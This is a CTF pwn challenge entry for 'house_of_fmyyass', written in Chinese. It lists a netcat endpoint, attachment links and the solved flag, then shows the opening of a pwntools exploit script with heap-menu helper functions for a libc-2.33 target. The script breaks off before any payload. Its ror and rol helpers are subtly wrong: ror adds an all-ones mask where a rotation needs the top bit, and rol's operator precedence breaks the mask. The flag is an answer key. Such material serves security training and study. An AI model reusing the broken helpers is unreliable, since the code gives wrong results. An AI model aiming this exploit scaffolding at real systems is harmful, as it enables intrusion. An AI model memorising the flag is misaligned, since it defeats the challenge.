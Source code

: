### house_of_fmyyass

出题人ID: 影二つ

题目描述:

```
Hack his ass!!!
nc 129.211.173.64 10003
```

附件链接:

```
http://download.kagehutatsu.com/Download/house_of_fmyyass.zip
https://attachment.h4ck.fun:9000/pwn/house_of_fmyyass/house_of_fmyyass.zip
https://nctf.slight-wind.com/pwn/house_of_fmyyass/house_of_fmyyass.zip
```

flag:

```
flag{ae9dabea23e559cd5300f1a1686b7917}
```

```python
from pwn import*
#r=remote("129.211.173.64",10003)
r=process('./main')
context.log_level='debug'

libc=ELF("./libc-2.33.so")

def new(size):
	r.recvuntil(">> ")
	r.sendline("1")
	r.recvuntil(": ")
	r.sendline(str(size))

def edit(offset,content):
	r.recvuntil(">> ")
	r.sendline("2")
	r.recvuntil(": ")
	r.sendline(str(len(content)))
	r.recvuntil(": ")
	r.sendline(str(offset))
	r.recvuntil(": ")
	r.send(content)

def delete(idx):
	r.recvuntil(">> ")
	r.sendline("3")
	r.recvuntil(": \x00")
	r.sendline(str(idx))

def show():
	r.recvuntil(">> ")
	r.sendline("4")

def ror(num,shift):
	for i in range(shift):
		num=(num>>0x1)+(num&0x1)*0xFFFFFFFFFFFFFFFF
	return num

def rol(num,shift):
	for i in range(shift):
		num=(num<<0x1)&0xFFFFFFFFFFFFFFFF+(num&0x8000000000000000)
	return num
```